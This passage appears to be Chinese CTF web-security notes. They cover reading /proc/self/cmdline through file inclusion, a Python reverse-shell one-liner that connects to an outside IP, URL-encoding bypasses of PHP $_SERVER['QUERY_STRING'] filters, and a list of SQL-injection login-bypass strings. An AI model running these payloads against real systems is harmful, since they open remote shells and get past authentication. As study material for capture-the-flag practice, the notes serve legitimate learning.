 在真正做题的时候，我们是不能通过命令的方式执行通过cat命令读取cmdline的，因为如果是cat读取`/proc/self/cmdline`的话，得到的是cat进程的信息，所以我们要通过题目的当前进程使用读取文件（如文件包含漏洞，或者SSTI使用file模块读取文件）的方式读取`/proc/self/cmdline`

`cat /proc/*/fd/*`

## 反弹shell

python
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

## $_REQUEST $_SERVER['QUERY_STRING']

`$_REQUEST`有个特性就是当GET和POST有相同的变量时，匹配POST的变量

`$_SERVER['QUERY_STRING']`匹配的是原始数据，就是没有url编码过的数据，所以可以使用url编码绕过

```php
1，http://localhost/aaa/(打开aaa中的index.php)
结果：
$_SERVER['QUERY_STRING'] = "";
$_SERVER['REQUEST_URI']

= "/aaa/";
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
$_SERVER['PHP_SELF']    = "/aaa/index.php";

2， http://localhost/aaa/?p=222(附带查询)
结果：
$_SERVER['QUERY_STRING'] = "p=222";
$_SERVER['REQUEST_URI']  = "/aaa/?p=222";
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
$_SERVER['PHP_SELF']    = "/aaa/index.php";

3，http://localhost/aaa/index.php?p=222&q=333
结果：
$_SERVER['QUERY_STRING'] = "p=222&q=333";
$_SERVER['REQUEST_URI']  ="/aaa/index.php?p=222&q=333";
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
$_SERVER['PHP_SELF']    = "/aaa/index.php";

由实例可知：
$_SERVER[" QUERY_STRING"] 获取查询 语句，实例中可知，获取的是?后面的值
$_SERVER[" REQUEST_URI"]  获取 http://localhost 后面的值，包括/
$_SERVER[" SCRIPT_NAME"]  获取当前脚本的路径，如：index.php
$_SERVER[" PHP_SELF"]     当前正在执行脚本的文件名
```

## 万能密码

```sql
' or 1='1
'or'='or'
admin
admin'--
admin' or 4=4--
admin' or '1'='1'--
admin888
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1--
admin' or '2'='2
')or('a'='a
```